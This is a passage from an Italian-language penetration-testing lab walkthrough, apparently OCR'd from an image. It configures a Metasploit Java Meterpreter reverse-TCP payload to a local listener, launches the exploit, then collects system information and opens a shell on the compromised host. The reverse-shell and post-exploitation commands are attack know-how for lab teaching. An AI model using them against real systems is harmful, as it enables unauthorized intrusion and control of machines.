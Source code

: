      ```
   - Configurare il payload per la sessione Meterpreter:
     ```bash
     set payload java/meterpreter/reverse_tcp
     set LHOST 192.168.50.165
     set LPORT 7777
     ```
5. Lanciare l'exploit:
   ```bash
   exploit
   ```

### **4. Raccolta delle Evidenze sulla Macchina Compromessa**

#### **4.1 Verifica se la macchina è virtuale o fisica**
1. Eseguire il comando:
   ```bash
   sysinfo
   ```
   - Controllare le informazioni di sistema per riferimenti a VMware, VirtualBox, o altri hypervisor.
2. Per ulteriori verifiche, accedere alla shell:
   ```bash
   shell
   ```
   Eseguire:
   ```cmd
   systeminfo
   ```